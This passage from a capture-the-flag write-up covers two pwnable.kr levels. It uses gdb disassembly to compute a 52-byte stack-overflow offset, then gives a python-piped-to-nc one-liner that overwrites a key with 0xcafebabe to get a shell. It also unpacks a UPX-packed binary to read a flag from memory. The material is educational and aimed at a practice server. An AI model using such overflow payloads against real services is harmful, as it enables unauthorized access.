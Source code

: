 ```assembly
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    movl   $0x7a3,(%esp)
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    -0xc(%ebp),%eax
   0x0000067a <+78>:    xor    %gs:0x14,%eax
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave  
   0x00000689 <+93>:    ret    
End of assembler dump.
```
We can see some usefull things here.
First of all, in the following line: ` cmpl   $0xcafebabe,0x8(%ebp) ` we can see that some comparison has been made between the hardcoded cafebabe parameter and another variable(which is the key variable), 
which is located in the address 0x8 after ebp. so based of the c file, we know the the key variable sits in ebp + 0x8, so we know to where we should write.
Now, lets try to understand where the gets function is writing to.
Based of the c code, the gets function gets called right before the if when we check the key, so the line: `call   0x650 <func+36>` should be it
As we know, the gets function takes in a paramater which is the address to write into(which is what we are looking for), and we can see that right before the call command
we set -0x2c(%ebp) in eax, which is the operand for the gets command.
so the overflowme variable sits in ebp - 0x2c.
lets calculate the distance: 0x8 + ebp - (ebp - 0x2c) = 0x8 + 0x2c = 52 (decimal)
so in order to overwrite the overflowme variable, we should fill 52 spaces, and then write our payload.
we can do it by running the following command, and then we get a shell:

```python
(python2 -c "print('A' * 52 + '\xbe\xba\xfe\xca\n')"; cat) | nc pwnable.kr 9000 
```

### Flag - Level 4

First of all, we can disassemble the exetuable using gdb, but we will notice that we cant.
The next step is to try running the strings command on the executable , to get some idea of whats going on
When we try to , we get something usefull: 
`$Info: This file is packed with the UPX executable packer http://upx.sf.net $`
which means that we cant disassemble our program because of an exectuable packer called upx.
lets run upx -d flag to unpack it, and then we can successfully disassemble it.
```assembly
   0x0000000000401164 <+0>:     push   %rbp
   0x0000000000401165 <+1>:     mov    %rsp,%rbp
   0x0000000000401168 <+4>:     sub    $0x10,%rsp
   0x000000000040116c <+8>:     mov    $0x496658,%edi
   0x0000000000401171 <+13>:    call   0x402080 <puts>
   0x0000000000401176 <+18>:    mov    $0x64,%edi
   0x000000000040117b <+23>:    call   0x4099d0 <malloc>
   0x0000000000401180 <+28>:    mov    %rax,-0x8(%rbp)
   0x0000000000401184 <+32>:    mov    0x2c0ee5(%rip),%rdx        # 0x6c2070 <flag>
   0x000000000040118b <+39>:    mov    -0x8(%rbp),%rax
   0x000000000040118f <+43>:    mov    %rdx,%rsi
   0x0000000000401192 <+46>:    mov    %rax,%rdi
   0x0000000000401195 <+49>:    call   0x400320
   0x000000000040119a <+54>:    mov    $0x0,%eax
   0x000000000040119f <+59>:    leave  
   0x00000000004011a0 <+60>:    ret    
End of assembler dump.
```
we see a comment of the string, then we run x/s *0x6c2070 to see the string in that address.
